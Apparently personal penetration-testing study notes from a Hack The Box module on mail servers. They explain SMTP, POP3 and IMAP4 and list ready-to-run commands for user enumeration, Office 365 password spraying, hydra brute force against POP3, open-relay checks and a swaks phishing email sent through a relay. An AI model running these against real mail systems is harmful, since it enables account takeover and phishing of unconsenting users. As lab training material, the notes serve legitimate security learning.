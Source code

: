 
>A `mail server` (sometimes also referred to as an email server) is a server that handles and delivers email over a network, usually over the Internet. A mail server can receive emails from a client device and send them to other mail servers. A mail server can also deliver emails to a client device. A client is usually the device where we read our emails (computers, smartphones, etc.).
>>
>>When we press the `Send` button in our email application (email client), the program establishes a connection to an `SMTP` server on the network or Internet. The name `SMTP` stands for Simple Mail Transfer Protocol, and it is a protocol for delivering emails from clients to servers and from servers to other servers.
>>>
>>>When we download emails to our email application, it will connect to a `POP3` or `IMAP4` server on the Internet, which allows the user to save messages in a server mailbox and download them periodically.
>>>>
>>>>By default, `POP3` clients remove downloaded messages from the email server. This behavior makes it difficult to access email on multiple devices since downloaded messages are stored on the local computer. However, we can typically configure a `POP3` client to keep copies of downloaded messages on the server.
>>>>On the other hand, by default, `IMAP4` clients do not remove downloaded messages from the email server. This behavior makes it easy to access email messages from multiple devices. Let's see how we can target mail servers.


![[SMTP-IMAP-1.png]]

---

```
$ host -t MX hackthebox.eu
```

```
$ host -t MX microsoft.com
```

```
$ dig mx plaintext.do | grep "MX" | grep -v ";"
```

```
$ dig mx inlanefreight.com | grep "MX" | grep -v ";"
```

```
$ host -t A mail1.inlanefreight.htb
```
#host #dig #mx #grep 

|**Port**|**Service**|
|---|---|
|`TCP/25`|SMTP Unencrypted|
|`TCP/143`|IMAP4 Unencrypted|
|`TCP/110`|POP3 Unencrypted|
|`TCP/465`|SMTP Encrypted|
|`TCP/993`|IMAP4 Encrypted|
|`TCP/995`|POP3 Encrypted|

```
$ sudo nmap -Pn -sV -sC -p25,143,110,465,993,995 10.129.14.128
```

```
$ telnet 10.10.110.20 25
```

```
$ telnet 10.10.110.20 110
```

```
$ smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7
```

```
$ python3 o365spray.py --validate --domain msplaintext.xyz
```

```
$ python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz  
```

```
$ hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3
```

```
$ python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
```

#nmap #smtp #imap #pop3 #telnet #smtp-user-enum #python #o365spray #hydra #login #passwordspray #bruteforce 






```
$ nmap -p25 -Pn --script smtp-open-relay 10.10.11.213
```
#nma #smtp #script 

```
$ swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213
```
#swaks 

```
$ curl -k 'imaps://<FQDN/IP>' --user <user>:<password> -v 
```

```
$ openssl s_client -connect <FQDN/IP>:imap
```

```
$ openssl s_client -connect <FQDN/IP>:pop
```
#curl #openssl #imap #pop3 